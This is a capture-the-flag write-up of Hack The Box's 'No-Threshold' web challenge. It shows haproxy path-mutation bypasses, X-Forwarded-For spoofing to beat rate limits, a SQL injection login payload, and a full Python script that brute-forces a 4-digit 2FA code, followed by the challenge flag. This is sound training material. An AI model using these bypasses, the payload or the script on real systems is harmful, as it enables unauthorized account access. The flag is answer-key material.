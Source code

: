 ```yaml
---
title: "No-Threshold - HackTheBox"
description: "https://app.hackthebox.com/challenges/No-Threshold"
summary: "Hack The Box Web Challenge No-Threshold"
date: 2024-09-01
draft: true
tags: ["HackTheBox", "CTF", "Web", "SQLi"]
---
```


------------------------

### Challenge Description

Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

### Source Code Review

In the `haproxy.cfg` file, we notice few things.

#### Bypass blocked access to login

```cfg
# External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

Access to the path that starts with `/auth/login` is blocked. This can be easily bypassed with mutations like `//auth/login` or `/xx/../auth/login`.

URLs are often normalized by web servers, so both of them will resolve to `/auth/login`.

#### Bypass blocked access to verify-2fa

```cfg
    # Parse the X-Forwarded-For header value if it exists. If it doesn't exist, add the client's IP address to the X-Forwarded-For header.
    http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }

    # Apply rate limit on the /auth/verify-2fa route.
    acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa

    # Checks for valid IPv4 address in X-Forwarded-For header and denies request if malformed IPv4 is found. (Application accepts IP addresses in the range from 0.0.0.0 to 255.255.255.255.)
    acl valid_ipv4 req.hdr(X-Forwarded-For) -m reg ^([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])$

    http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4

    # Crate a stick-table to track the number of requests from a single IP address. (1min expire)
    stick-table type ip size 100k expire 60s store http_req_rate(60s)

    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }

    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

This will keep track of the number of requests made to the `/auth/verify-2fa` endpoint from the IP based on the `X-Forwarded-For` header. It will deny requests to `/auth/verify-2fa` with a 429 status if the request rate exceeds 20 requests per minute per IP.

This can also be easily bypassed by using path mutations. or we can use `X-Forwarded-For` to use multiple IPs. 20 requests per IP, so we will need 500 IPs to bruteforce a 4-digit code.

#### SQL injection in login

In `login.py` we notice that username AND password are directly appended to the SQLite query. That's right, we have SQL injection here!

```python
user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )
```
If we successfully login, it will set a 4-digit 2FA code.
```python
            set_2fa_code(4)
```

```python
def set_2fa_code(d):
    uwsgi.cache_del("2fa-code")
    uwsgi.cache_set(
        "2fa-code", "".join(random.choices(string.digits, k=d)), 300 # valid for 5 min
    )
```

### Get The Flag

If we successfully login and verify the 2FA, then it will redirect to `/dashboard` and return the flag.
Simple enough, let's try it.

To login successfully we can use simple payload like `' OR 1=1 OR 'x'='x` in the username field.

![Login via SQLi](files/sqli-login.png#center)

Now send it to the intruder and bruteforce a 4-digit code for the `//auth/verify-2fa` endpoint.

![Intruder 2fa result](files/intruder-2fa-bruteforce.png#center)

![Flag at Dashboard endpoint](files/dashboard-endpoint.png#center)

Alternatively, we can bruteforce 2FA code through multiple IP addresses via the `X-Forwarded-For` header.

Below Python code automates that process:

```python
import os
import re
import sys
import threading
import requests


n1, n2, n3, n4 = 1, 0, 0, 0
ips = dict()
url = "http://94.237.59.199:48823"


def get_ip(x):
    global n1, n2, n3, n4, url
    for x2 in range(x, x + 10):
        if n4 < 255:
            n4 += 1
        elif n3 < 255:
            n3 += 1
        elif n2 < 255:
            n2 += 1
        elif n1 < 255:
            n1 += 1
        ip = f"{n1}.{n2}.{n3}.{n4}"
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}//x/../auth/login",
            data="username='+OR+1263%3d1263+OR+'RzWd'%3d'OrZt&password=cycAEGAv4OapKYasrIa2vuguAnSgwib5",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
            allow_redirects=False,
        )
        if "verify-2fa" not in response.text:
            print(response.text)
            sys.exit("no 2fa!!")
        ips[x2] = ip
        pass
    pass


def brute_force(start, end, ip):
    for i in range(start, end):
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}/auth/verify-2fa",
            data=f"2fa-code={i:04}",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
        )
        if "flag" in response.text:
            print("IP:", ip)
            matches = re.findall(r"HTB\{(.*?)\}", response.text)
            if matches:
                for match in matches:
                    print("Flag Found: HTB{", match, "}", sep="")
            else:
                print(response.text)
            os._exit(0)
        pass


num_threads = 500
total_numbers = 10000
chunk_size = total_numbers // num_threads
threads = []
threads2 = []
for x in range(50):
    t = threading.Thread(target=get_ip, args=(x * 10,))
    threads2.append(t)
    t.start()
    pass
for t in threads2:
    t.join()

print(f"Total ip: {len(ips)}")
for i in range(num_threads):
    start = i * chunk_size
    end = start + chunk_size
    thread = threading.Thread(target=brute_force, args=(start, end, ips[i]))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

print("Brute force completed.")
```

Code output:

![Python code output](files/python-code-output.png#center)

Flag: `HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_f34tur35}`

Happy Hacking
